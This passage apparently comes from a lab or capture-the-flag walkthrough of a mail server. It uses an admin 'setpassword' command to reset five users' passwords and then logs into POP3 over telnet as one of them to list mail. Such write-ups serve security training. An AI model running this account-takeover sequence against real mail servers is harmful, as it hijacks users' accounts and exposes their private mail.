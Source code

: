 ```
james
thomas
john
mindy
mailadmin
```
- According the useage, I have command to reset those user's password
```
setpassword <username> <newpassword>
```

![](./IMG/16.png)
- So, I can set password for all user.
```
setpassword james james123
setpassword john john123
setpassword thomas thomas123
setpassword mindy mindy123
```

![](./IMG/17.png)
```
setpassword mailadmin mailadmin123
```

![](./IMG/18.png)
- Using telnet to connect to pop3 service
```
telnet 10.129.206.76 110
```

![](./IMG/19.png)
- Check Every user
```
USER james
PASS james123
list
```
